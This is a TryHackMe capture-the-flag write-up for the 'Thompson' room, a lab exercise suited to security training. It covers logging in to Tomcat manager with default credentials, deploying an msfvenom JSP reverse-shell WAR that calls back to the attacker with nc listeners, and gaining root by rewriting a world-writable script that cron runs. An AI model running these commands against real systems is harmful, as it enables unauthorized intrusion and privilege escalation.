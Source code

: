 ```yaml
---
layout: post
title: PenLog - &quot;Thompson&quot; by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Thompson](https://tryhackme.com/room/bsidesgtthompson)

## Enumeration

Run `nmap` default port scan on target with TCP connect/version/script options:

```bash
$ nmap -vv -Pn -sT -sV -sC -r -n 10.10.58.198
```

This results in:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/nmap1.png)

Open browser and navigate to target's open http port 8080; confirm Tomcat version is v8.5.5 as per the `nmap` scan result:

![tomcat](/images/posts/penlog_thompson_by_tryhackme/tomcat.png)

Navigate to _/manager_ by clicking the "Manager App" button; click "Cancel" when prompted for a username and password.

Note the rendered error response mentions example credentials:
* **Username:** tomcat
* **Password:** :s3cret

![tomcat-error](/images/posts/penlog_thompson_by_tryhackme/tomcat_error.png)

Reattempt to authenticate to _/manager_ with the above mentioned example credentials - **success**.

## User Shell

Generate a JSP payload in _.war_ format using `msfvenom`:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.4.9.232 LPORT=4444 -f war > shell.war
```
_(**NOTE:** You can list available payloads with `msfvenom --list payloads`; I use `grep` to filter the payloads on a needs basis.)_

Deploy the generated _shell.war_:

![tomcat-deploy](/images/posts/penlog_thompson_by_tryhackme/tomcat_deploy.png)

![tomcat-deployed](/images/posts/penlog_thompson_by_tryhackme/tomcat_deployed.png)

Start an `nc` lister on the port specified as _LPORT_ to the `msfvenom` command:

```bash
$ nc -vnlp 4444
```

Click the _/shell_ link in the deployed applications list (as shown above) -- the Tomcat server will execute the deployed JSP reverse shell code generated using `msfvenom` -- to establish a low-privilege _user_ shell.

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user _flag.txt_:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/user_flag.png)

Notice the _id.sh_ file in the user home directory _/home/jack_; this script is owned by _jack_ but is world writable - that is, the _tomcat_ user can change the script:

![id-script-perms](/images/posts/penlog_thompson_by_tryhackme/id_script_perms.png)

This script, when executed, writes out the _uid_ of the executing user to the file _test.txt_ in the same home directory:

![id-script-out](/images/posts/penlog_thompson_by_tryhackme/id_script_out.png)

Notice the current _test.txt_ reads `id` output for _root_; indicating the last user to execute the _id.sh_ script was _root_.

The system _/etc/crontab_ shows evidence of the _id.sh_ script running every minute as user _root_:

![crontab](/images/posts/penlog_thompson_by_tryhackme/crontab.png)

## Root Shell

Replace the _id.sh_ script with a bash reverse shell connection to attacking machine:

![id-script-new](/images/posts/penlog_thompson_by_tryhackme/id_script_new.png)

Start `nc` listener on the attacking machine, specifying expected reverse shell port (4446 in this case):

```bash
$ nc -vnlp 4446
```

Wait for `cron` to execute _id.sh_ as root, establishing a reverse shell as _root_; get the root _flag.txt_:

![root-shell](/images/posts/penlog_thompson_by_tryhackme/root_shell.png)
